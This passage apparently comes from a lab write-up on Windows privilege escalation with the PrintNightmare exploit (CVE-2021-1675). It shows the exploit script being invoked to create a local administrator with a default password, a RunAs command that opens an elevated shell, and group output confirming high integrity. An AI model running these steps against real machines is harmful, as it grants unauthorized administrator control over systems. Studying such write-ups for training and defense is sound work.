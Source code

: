 wich creates a new admin user for us

```
PS C:\Users\Atlas> . \\tsclient\share\CVE-2021-1675-main\CVE-2021-1675.ps1

PS C:\Users\Atlas> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
```

We could take the simple option of right-clicking on PowerShell or cmd.exe and choosing to "Run as Administrator", but that's no fun. Instead, let's use a hacky little PowerShell command to start a new high-integrity command prompt running as our new administrator.

The command is as follows:
`Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n`

y tho? you ask? for the lulz of course

```
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /groups

## GROUP INFORMATION

Group Name Type SID Attributes
============================================================= ================ ============ ===============================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators Alias S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE Well-known group S-1-5-4 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account Well-known group S-1-5-113 Mandatory group, Enabled by default, Enabled group
LOCAL Well-known group S-1-2-0 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label S-1-16-12288

C:\Windows\system32>
```
